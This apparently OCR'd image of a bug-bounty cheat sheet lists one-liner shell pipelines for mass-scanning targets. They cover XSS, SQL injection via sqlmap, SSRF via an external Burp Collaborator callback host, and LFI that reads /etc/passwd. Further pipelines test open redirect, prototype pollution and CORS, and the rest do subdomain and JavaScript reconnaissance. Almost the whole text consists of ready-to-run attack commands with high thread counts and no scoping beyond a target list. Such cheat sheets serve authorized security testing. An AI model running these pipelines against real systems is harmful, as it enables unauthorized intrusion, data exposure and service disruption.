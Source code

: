 𝐗𝐒𝐒 ⪼

cat targets.txt | anew | httpx -silent -threads 500 | xargs -I@ dalfox url @
cat targets.txt | getJS | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"

𝐒𝐐𝐋𝐢 ⪼

httpx -l targets.txt -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'

𝐒𝐒𝐑𝐅 ⪼

findomain -t http://target.com -q | httpx -silent -threads 1000 | gau | grep "=" | qsreplace 𝘩𝘵𝘵𝘱://𝘠𝘖𝘜𝘙.𝘣𝘶𝘳𝘱𝘤𝘰𝘭𝘭𝘢𝘣𝘰𝘳𝘢𝘵𝘰𝘳.𝘯𝘦𝘵

𝐋𝐅𝐈 ⪼

gau http://vuln.target.com | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'

𝐎𝐏𝐄𝐍 𝐑𝐄𝐃𝐈𝐑𝐄𝐂𝐓 ⪼

gau http://vuln.target.com | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'

𝐏𝐑𝐎𝐓𝐎𝐓𝐘𝐏𝐄 𝐏𝐎𝐋𝐋𝐔𝐓𝐈𝐎𝐍 ⪼

subfinder -d http://target.com | httpx -silent | sed 's/$/\/?__proto__[testparam]=exploit\//' | page-fetch -j 'window.testparam=="exploit"?"[VULN]":"[NOT]"' | sed "s/(//g"|sed"s/)//g" | sed "s/JS//g" | grep "VULN"

𝐂𝐎𝐑𝐒 ⪼

gau http://vuln.target.com | while read url;do target=$(curl -s -I -H "Origin: https://evvil.com" -X GET $url) | if grep 'https://evvil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done

𝐄𝐱𝐭𝐫𝐚𝐜𝐭 .𝐣𝐬 ⪼

echo http://target.com | haktrails subdomains | httpx -silent | getJS --complete | tojson | anew JS1
assetfinder http://vuln.target.com | waybackurls | grep -E "\.json(?:onp?)?$" | anew

𝐄𝐱𝐭𝐫𝐚𝐜𝐭 𝐔𝐑𝐋𝐬 𝐟𝐫𝐨𝐦 𝐜𝐨𝐦𝐦𝐞𝐧𝐭 ⪼

cat targets.txt | html-tool comments | grep -oE '\b(https?|http)://[-A-Za-z0-9+&@#/%?=~_|!:,.;]*[-A-Za-z0-9+&@#/%=~_|]'

𝐃𝐮𝐦𝐩 𝐈𝐧-𝐬𝐜𝐨𝐩𝐞 𝐀𝐬𝐬𝐞𝐭𝐬 𝐟𝐫𝐨𝐦 𝐇𝐚𝐜𝐤𝐞𝐫𝐎𝐧𝐞 ⪼

curl -sL 𝘩𝘵𝘵𝘱𝘴://𝘨𝘪𝘵𝘩𝘶𝘣.𝘤𝘰𝘮/𝘢𝘳𝘬𝘢𝘥𝘪𝘺𝘵/𝘣𝘰𝘶𝘯𝘵𝘺-𝘵𝘢𝘳𝘨𝘦𝘵𝘴-𝘥𝘢𝘵𝘢/𝘣𝘭𝘰𝘣/𝘮𝘢𝘴𝘵𝘦𝘳/𝘥𝘢𝘵𝘢/𝘩𝘢𝘤𝘬𝘦𝘳𝘰𝘯𝘦_𝘥𝘢𝘵𝘢.𝘫𝘴𝘰𝘯?𝘳𝘢𝘸=𝘵𝘳𝘶𝘦 | jq -r '.[].targets.in_scope[] | [.asset_identifier, .asset_type]

𝐅𝐢𝐧𝐝 𝐥𝐢𝐯𝐞 𝐡𝐨𝐬𝐭/𝐝𝐨𝐦𝐚𝐢𝐧/𝐚𝐬𝐬𝐞𝐭𝐬 ⪼

subfinder -d http://vuln.target.com -silent | httpx -silent -follow-redirects -mc 200 | cut -d '/' -f3 | sort -u

𝐒𝐜𝐫𝐞𝐞𝐧𝐬𝐡𝐨𝐭 ⪼

assetfinder -subs-only http://target.com | httpx -silent -timeout 50 | xargs -I@ sh -c 'gowitness single @'
